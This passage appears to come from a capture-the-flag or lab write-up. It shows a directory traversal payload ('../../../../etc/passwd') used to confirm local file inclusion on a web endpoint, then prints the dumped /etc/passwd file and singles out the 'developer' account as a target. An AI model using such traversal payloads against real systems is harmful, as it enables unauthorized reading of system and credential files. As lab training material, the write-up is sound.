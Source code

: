```
../../../../etc/passwd
```

Let's test:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250225133202.png)

And I was right, LFI is indeed possible in this endpoint, we can see the following in `/etc/passwd`:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

We found an user with a shell:

```
developer
```
